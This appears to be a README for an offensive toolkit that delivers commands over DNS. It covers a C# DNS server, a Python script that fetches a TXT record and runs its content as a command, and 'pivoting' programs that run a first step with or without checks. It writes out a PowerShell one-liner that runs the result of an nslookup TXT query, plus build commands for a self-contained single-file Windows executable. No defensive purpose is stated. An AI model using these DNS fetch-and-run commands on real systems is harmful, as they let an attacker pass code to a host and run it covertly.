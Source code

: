 ## DNS-Server.cs ##
- Install-Package ARSoft.Tools.Net (NuGet)
- Execute: "powershell . (nslookup -q=txt example.com 127.0.0.1)[-1]"
  The locahohost IP has to be given to differentiate between the "real" domain and the locally running one.

-- Build an executable from the Developer Console within Visual studio

https://learn.microsoft.com/en-us/dotnet/core/deploying/single-file/overview?tabs=cli
- Build:
  <code>
  C:\Users\Noone\Desktop\app\ConsoleApp2>dotnet publish -c Release -r win-x64 --self-contained true -p:PublishSingleFile=true -p:PublishReadyToRun=true -p:PublishTrimmed=true -p:PublishDir=.\publish --force
  </code>
- Build standalone:
  <code>
  dotnet publish -c Release -r win-x64 --self-contained true -p:PublishSingleFile=true -p:PublishReadyToRun=true -p:PublishTrimmed=true -p:IncludeNativeLibrariesForSelfExtract=true -p:PublishDir=.\publish --force
  </code>

## nshookup.py (needs dnspython) ##
- nshookup.py:\
  Python implemetation of nslookup. Only works with one TXT entry.
  Gets the entry and executes the content between the two "" as command.
  Command: python nshookup.py domain.com

- nshookup_1.py:\
  Hardcoded domain:
  Command: python nshookup.py

## pivoting.cs ##
- pivoting_1.cs:\
  No checks, just go for it
- pivoting_2.cs:\
  Checks if at least a part of a certain string is present before executing the first step
- pivoting_3.cs:\
  Defines the string as mandatory to execute the first step
